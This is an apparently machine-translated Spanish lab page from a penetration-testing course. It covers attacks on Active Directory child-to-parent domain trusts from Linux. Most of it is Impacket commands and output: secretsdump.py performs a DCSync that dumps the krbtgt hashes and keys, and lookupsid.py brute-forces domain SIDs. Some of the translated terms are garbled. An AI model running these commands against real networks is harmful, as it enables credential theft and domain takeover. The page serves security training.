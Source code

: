 # Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - de Linux

---

También podemos realizar el ataque que se muestra en la sección anterior desde un host de ataque de Linux. Para hacerlo, aún tendremos que reunir los mismos bits de información:

- El hash Krbtgt para el dominio infantil
- El sid para el dominio infantil
- El nombre de un usuario objetivo en el dominio infantil (¡no necesita existir!)
- El fqdn del dominio infantil
- El Sid del Grupo de Administradores Enterprise del dominio raíz

Una vez que tenemos el control completo del dominio infantil,`LOGISTICS.INLANEFREIGHT.LOCAL`, podemos usar`secretsdump.py`a DCSYNC y toma el hash NTLM para la cuenta KRBTGT.

#### Realización de DCSYNC con secretsdump.py

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - de Linux

```shell-session
xnoxos@htb[/htb]$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
krbtgt:des-cbc-md5:fee04c3d026d7538
[*] Cleaning up...
```

A continuación, podemos usar[lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py)Desde el kit de herramientas de Impacket para realizar el forzamiento SID Brute para encontrar el dominio SID del niño. En este comando, lo que sea que especifique para la dirección IP (la IP del controlador de dominio en el dominio infantil) se convertirá en el dominio objetivo para una búsqueda SID. La herramienta nos devolverá el SID para el dominio y los Rids para cada usuario y grupo que podrían usarse para crear su SID en el formato`DOMAIN_SID-RID`. Por ejemplo, de la salida a continuación, podemos ver que el SID del`lab_adm`El usuario sería`S-1-5-21-2806153819-209893948-922872689-1001`.

#### Realizar el forzamiento de Sid Brute usando LookupSid.py

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - de Linux

```shell-session
xnoxos@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 172.16.5.240
[*] StringBinding ncacn_np:172.16.5.240[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2806153819-209893948-922872689
500: LOGISTICS\Administrator (SidTypeUser)
501: LOGISTICS\Guest (SidTypeUser)
502: LOGISTICS\krbtgt (SidTypeUser)
512: LOGISTICS\Domain Admins (SidTypeGroup)
513: LOGISTICS\Domain Users (SidTypeGroup)
```
